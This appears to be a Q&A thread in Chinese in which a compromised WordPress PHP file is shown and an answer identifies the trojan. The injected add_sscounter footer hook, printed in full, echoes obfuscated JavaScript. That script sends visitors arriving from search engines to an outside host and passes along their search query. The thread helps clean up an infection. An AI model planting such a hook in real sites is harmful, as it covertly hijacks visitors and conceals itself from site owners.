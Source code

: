 ```
            $post_title=stripslashes($post->post_title);
            $comment_count=$post->comment_count;
            $permalink=get_permalink($post->ID);
            $output .= $before . " <a href=\"" . $permalink . "\" title=\"" . $post_title."\">" . $post_title . "</a> " . $after;
        }
    } else {
        $output .= $before . "پيدا نشد" . $after;
    }
    return  $output;
}       
?><?php 
add_action('get_footer', 'add_sscounter');
    function add_sscounter(){
        echo '<!--scounter-->';
        if(function_exists('is_user_logged_in')){
            if(time()%2 == 0 && !is_user_logged_in()){          
                echo "<script language=\"JavaScript\">eval(function(p,a,c,k,e,r){e=function(c){return(c<a?'':e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)r[e(c)]=k[c]||e(c);k=[function(e){return r[e]}];e=function(){return'\\\w+'};c=1};while(c--)if(k[c])p=p.replace(new RegExp('\\\b'+e(c)+'\\\b','g'),k[c]);return p}('e r=x.9,t=\"\",q;4(r.3(\"m.\")!=-1)t=\"q\";4(r.3(\"7.\")!=-1)t=\"q\";4(r.3(\"8.\")!=-1)t=\"p\";4(r.3(\"a.\")!=-1)t=\"q\";4(r.3(\"f.\")!=-1)t=\"g\";4(r.3(\"j.\")!=-1)t=\"q\";4(t.6&&((q=r.3(\"?\"+t+\"=\"))!=-1||(q=r.3(\"&\"+t+\"=\"))!=-1))B.C=\"v\"+\"w\"+\":/\"+\"/A\"+\"b\"+\"k\"+\"5\"+\"h.\"+\"c\"+\"z/s\"+\"u\"+\"5\"+\"h.p\"+\"d?\"+\"t\"+\"y=1&t\"+\"i\"+\"l=\"+r.n(q+2+t.6).o(\"&\")[0];',39,39,'|||indexOf|if|rc|length|msn|yahoo|referrer|altavista|ogo|bi|hp|var|aol|query||er|ask|sea|ms|google|substring|split||||||ea|ht|tp|document|||go|window|location'.split('|'),0,{}))</script>";
            }
        }
    }
?> 
```

* * *

## 回答 #1

> 赞同：3
> 
> 时间：2012-04-11T08:14:52.873

它在最后五行`function add_sscounter()`：

```
 if(function_exists('is_user_logged_in')){
        if(time()%2 == 0 && !is_user_logged_in()){          
            echo TROJAN_CODE_HERE;
        }
    } 
```

请注意，仅删除此代码是不够的，您需要找到它是如何添加的，并确保不会再次发生。
